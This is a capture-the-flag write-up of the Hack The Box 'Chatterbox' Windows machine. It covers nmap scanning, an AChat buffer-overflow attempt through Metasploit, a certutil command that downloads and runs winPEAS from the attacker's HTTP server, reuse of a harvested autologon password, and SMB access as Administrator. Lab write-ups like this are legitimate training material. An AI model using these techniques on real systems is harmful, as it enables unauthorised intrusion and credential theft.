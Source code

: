 ### HTB Chatterbox  (10.10.10.74)

Here we are again, doing another HTB.  Hope this finds you well and let's get to it.

So first thing's first, we nmap to see what we're dealing with.

`sudo nmap -A 10.10.10.74`

![pic1nmap](/Images/HTB2Chat/Pic1nmap.png)
![pic2nmap](/Images/HTB2Chat/Pic2nmap.png)

Looks like we've got a windows machine on our hands.  Some SMB stuff too so that could prove intersting later.  At this point the guided approach in HTB had kinda stopped working.  It was asking how many ports were open and I would answer from this and it would be wrong.  I found a write up to check my work and appears I wasn't totally wrong, but I had too many.  I even tried adjusting my nmap scan.

`sudo nmap -A -p- 10.10.10.74`

And got still another answer, that was again, wrong lol.

![pic3nmap](/Images/HTB2Chat/pic3nmap.png)

The answer you're looking for is 2.  Those two ports are the the focus, that we will get into now.

The next question in the guided mode asks about the known buffer overflow attack linked to achat.  After a google search I do end up finding an exploit for a version of achat.  Not sure if it's the version I am looking at though, so lets go about finding that.

Followed directions on the rapid7 site.

```
msf6 > use exploit/windows/misc/achat-bof
msf6 exploit(windows/misc/achat-bof) > show targets
```

![pic4metaspoit](/Images/HTB2Chat/pic4metasploit.png)

And look at that, the version number.  And it just happens to match the exploit I found.  So lets give it a go.

In that same exploit, let's look at our options.

```
msf6 exploit(windows/misc/achat-bof) > set target 10.10.10.74
msf6 exploit(windows/misc/achat-bof) > set lhost <my vpn ip>
msf6 exploit(windows/misc/achat-bof) > show options
```

![pic5metasploit](/Images/HTB2Chat/pic5metasploit.png)

`msf6 exploit(windows/misc/achat-bof) > run`

And it.....wait, it failed?!  Huh.  Ok, well let's try a different way.  So I found a couple things on git hub about using a buffer overflow for this.  It required using msfvenom in order to build out the vulnverability.  After finding that and getting it figured out (including finding out that these exploits were written in python2 and not python3), and a machine reset, I was finally able to get my exploit going for initial foothold.

![pic6cmd](/Images/HTB2Chat/pic6cmd.png)

Hey hey!!  That did the trick.  Now that we're in as the user, lets go ahead and grab his flag.

![pic7userflag](/Images/HTB2Chat/pic7userflag.png)

Now that I have that, let's get to getting the root one.

So first thing, grab us a bit of winpeas and then use python to start an http server and certutil.exe to grab the file over and run that.

```
root@kali# python3 -m http.server 80

C:/Users/Alfred/Documents> certutil -urlcache -f http://<VPN IP Address>/winpeasx86.exe winpeasx86.exe
C:/Users/Alfred/Documents> winpeasx86.exe
```

Once I got that run, then I look through the output and wouldn't you know it, there's an autologin set up.  And it's giving me the password to that.  Not to mention that we also see Alfred here has access to the admins home folders.

![pic8findings](/Images/HTB2Chat/pic8findings.png)

Turns out I don't have full access.  I still have the password though.

![pic9denied](/Images/HTB2Chat/pic9denied.png)


So let's try to do something with this password.  So after some looking, I find that the trick to this box is in the ports that are open.  I find a tool called plink.exe cause when looking at the netstat -ano command, you'll notice that there is an extra port on the inside that isn't showing up on the outside.

```
C:/Users/Alfred/Desktop>netstat -ano
```

![pic10SMB](/Images/HTB2Chat/pic10SMB.png)

Oh look, it's SMB.  We know all about SMB.  And actually, after looking, I found that SMB is apparently running on the outside.  Back to that earlier where it showed only 2 ports as being open.  So connect via SMB and try the Administrator account with the password we grabbed earlier for Alfred, since he's a local admin.

```
smbclient \\\\10.10.10.74\\C$ -U Administrator
Password for [WORKGROUP\Administrator]:
```
![pic11SMB](/Images/HTB2Chat/pic11SMB.png)

And that gives us our root.txt file.  Use SMB to download the file and then simply open it up and there's your flag!

![pic12SMB](/Images/HTB2Chat/pic12SMB.png)
![pic13root](/Images/HTB2Chat/pic13root.png)

This one was fun, a little sad that the plink path didn't work but it is what it is.  I think it may not have worked because that port was already on the outside so trying to forward something already forwarded may be an issue.  But, we got it, all good now.
